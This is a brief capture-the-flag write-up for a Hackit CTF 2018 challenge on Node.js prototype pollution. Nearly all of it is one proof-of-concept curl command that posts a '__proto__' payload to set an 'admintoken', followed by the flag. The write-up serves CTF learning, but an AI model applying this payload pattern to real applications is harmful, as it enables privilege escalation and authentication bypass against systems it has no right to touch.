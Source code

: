 # Hackit CTF 2018

## Problem

N/A

## I forgot problem name. Sorry T_T..

### Description

N/A

### Exploit

It is nodejs prototype pollution problem :)

Just POC Code.

```
curl 'http://185.168.131.1:3000/api' -H 'Origin: http://185.168.131.1:3000' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7,ja;q=0.6' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.81 Safari/537.36' -H 'Content-Type: application/json' -H 'Accept: */*' -H 'Referer: http://185.168.131.1:3000/' -H 'Connection: keep-alive' --data-binary '{"row":"__proto__","col":"admintoken","data":"shpikgod"}' --compressed
```

**flag{prototype_pollution_is_very_dangerous}**
